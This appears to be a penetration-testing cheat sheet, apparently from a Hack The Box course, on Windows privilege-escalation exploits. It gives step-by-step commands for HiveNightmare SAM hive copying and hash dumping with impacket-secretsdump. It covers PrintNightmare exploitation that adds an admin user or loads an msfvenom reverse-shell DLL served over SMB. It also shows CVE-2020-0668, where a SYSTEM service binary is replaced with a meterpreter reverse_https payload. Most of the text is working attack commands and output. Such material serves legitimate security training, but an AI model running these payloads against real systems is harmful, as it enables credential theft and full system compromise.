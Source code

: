 Over the years, there have been many kernel exploits that affect the Windows operating system from Windows 2000/XP up to Windows 10/Server 2016/2019. Below can be found a detailed table of known remote code execution/local privilege escalation exploits for Windows operating systems, broken down by service pack level, from Windows XP onward to Server 2016.

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits

### Enumerating Missing Patches
```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

### Metasploit Exploit Suggester
```bash
run post/multi/recon/local_exploit_suggester
```

```bash
background
exploit/windows/local/ms10_015_kitrap0d
set session 1 
set lhost tun0
set lport 5555 		(something different from last session)
exploit
```
#### Notable Exploits
- `MS08-067`
- `MS17-010` - [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
- `ALPC Task Scheduler 0-Day`
- `CVE-2021-36934 HiveNightmare, aka SeriousSam`


### HiveNightmare (Windows 10)
```powershell
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
      NT AUTHORITY\SYSTEM:(I)(F)
      BUILTIN\Users:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:
```powershell
.\HiveNightmare.exe
```

Dump hashes
```powershell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

### PrintNightmare
Local exploitation with [Invoke-Nightmare](https://github.com/JohnHammond/CVE-2021-34527) 
```powershell
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

Invoke-Nightmare -DriverName "Xerox" -NewUser "anton" -NewPassword "Pwned123!"
```

Remote exploitation
Check if machine is vulnerable
```powershell
rpcdump.py @192.168.1.129 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Generate malicious DLL, host it
```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4443 -f dll > shell.dll

smbserver.py share `pwd` -smb2support

nc -lnvp 1337
```

Download and run [this script](https://github.com/cube0x0/CVE-2021-1675).
```bash
python3 CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.18\share\shell.dll'
```

### CVE-2020-0668
[Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/) exploits an arbitrary file move vulnerability leveraging the Windows Service Tracing

Check privileges
```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```shell
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary
```powershell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generate malicious binary
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Download two copies of payload
Run exploit
```powershell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Replace File with Malicious Binary **NUMBER  2**
```powershell
 copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Start listener
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST 10.10.15.155; set LPORT 4443; set payload windows/x64/meterpreter/reverse_https; run'
```

Start service
```powershell
net start MozillaMaintenance 
```